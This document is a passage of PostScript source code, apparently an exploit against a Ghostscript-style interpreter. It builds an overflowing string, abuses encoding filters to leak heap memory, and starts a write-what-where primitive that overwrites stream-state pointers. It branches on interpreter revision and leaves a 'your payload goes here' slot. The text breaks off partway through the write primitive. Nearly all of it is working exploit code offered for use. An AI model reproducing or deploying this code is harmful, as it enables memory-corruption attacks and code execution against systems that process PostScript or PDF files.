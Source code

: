 ```plain
 exch
 sub
 16 16 string cvrs
}def
% - -> a long string
/createOverflow {
 ()
 1 1 2045 {pop <41> concatstrings}for
 <1313> concatstrings %escaped char
 revision 9560 ge 
 {1 1 15 {pop <42> concatstrings} for}
 {1 1 23 {pop <42> concatstrings} for}
 ifelse
}def

/leakAsString{
 /myString 16 string def
 /asciiToHexFilter myString /ASCIIHexEncode filter def
 asciiToHexFilter exch writestring
 asciiToHexFilter flushfile
 myString
}def


% (0xstring) --> ascii string
/stringToAddress{
 % from 0x231 to 0x0231, otherwise the filter understand 0x23 then 0x10
 dup length 2 mod 1 eq {(0) exch concatstrings}if
 /ASCIIHexDecode filter
 8 string readstring
 pop
 reverse
 % from 0xdeadbeef to 0x00000000deadbeef
 {dup length 8 eq {exit} {<00> concatstrings }ifelse}loop 
}def
% - -> a 8 bytes leak from the heap (i/o pool)
/leakMemory{
 /leakBuffer 10000 string def
 /leakMemoryFilter leakBuffer /NullEncode filter /BCPEncode filter def
 createOverflow
 <6964004343434343> concatstrings % s->templat (your payload goes here)
 <4444444444444444> concatstrings % s->memory
 <4545454545454545> concatstrings % s->report_error
 <4646464646464646> concatstrings % s->min_left
 1 1 80{pop <47> concatstrings }  for% s->error_string
 <4848484848484848> concatstrings % s->cursor->r->ptr
 leakMemoryFilter exch writestring
 leakMemoryFilter flushfile
 revision 9560 ge 
 {/leak leakBuffer 2176 8 getinterval def}
 {/leak leakBuffer 2184 8 getinterval def}
 ifelse
 leak
 reverse
} def


% what where -> -
/writewhatwhere {
 createOverflow
 <4343434343434343> concatstrings % s->templat
 <4444444444444444> concatstrings % s->memory
 <4545454545454545> concatstrings % s->report_error
```